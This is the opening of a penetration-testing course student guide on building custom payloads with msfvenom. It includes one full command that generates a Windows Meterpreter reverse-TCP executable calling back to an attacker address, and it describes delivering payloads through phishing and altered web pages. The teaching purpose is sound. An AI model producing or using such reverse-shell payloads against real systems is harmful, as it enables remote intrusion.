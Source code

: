 ## 17.3 Student Guide: Custom Payloads with msfvenom

### Overview

In this lesson, we will conclude our two units on pen testing by crafting custom payloads. 

### Class Objectives

By the end of class, you will be able to:

- Create custom payloads.

- Add payloads to websites by altering HTML. 

- Assess their overall penetration test engagement skills. 

### Slideshow

- Slides for this lesson are available on Google Drive, located here: [17.3 Slides](https://docs.google.com/presentation/d/1ZfjDj2n9JO1fUG7bulmC2RT_9Ckgjs6itn4Do282oEY/edit#slide=id.g4789b2c72f_0_6)

____


### 01. Custom Payloads

Review the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

Today's class will continue with Post Exploitation.

Think back to the last class. While making a Meterpreter session, we used the following custom payload: 

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

Today, we'll learn how to create payloads like this one using Metasploit.

- Remember a payload is the shell code that runs when an exploit successfully compromises a system.

- Attackers typically build custom payloads that they can use in phishing emails or add to their websites. When unsuspecting users click the link for the malicious payload, their computers are infected.

The exploitation of services is not as common as it was a decade ago. This is due to the use of defense countermeasures like endpoint detection and response,  AV solutions, and IPS/IDS implementation. 

- While patching mitigates vulnerable services, attackers will deliver custom payloads through social engineering if they cannot exploit services.

- Since C2 servers have dynamic IP addresses, attackers often have to create their own customized payloads that call back to their C2 server using SYN packets.
